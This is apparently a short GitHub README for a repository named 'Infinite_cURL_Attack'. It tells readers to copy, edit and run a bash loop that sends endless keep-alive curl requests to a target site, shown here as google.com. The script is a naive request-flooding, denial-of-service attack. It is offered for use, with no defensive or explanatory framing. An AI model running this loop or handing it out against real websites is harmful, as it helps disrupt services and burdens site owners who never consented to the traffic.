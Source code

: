 # Infinite_cURL_Attack
Infinite cURL Attack  

**USAGE** : Copy-Paste-Edit the following code in the Terminal/CMD.
```
while (true); do curl -v --header "Connection: keep-alive" "https://www.google.com"; done;
```
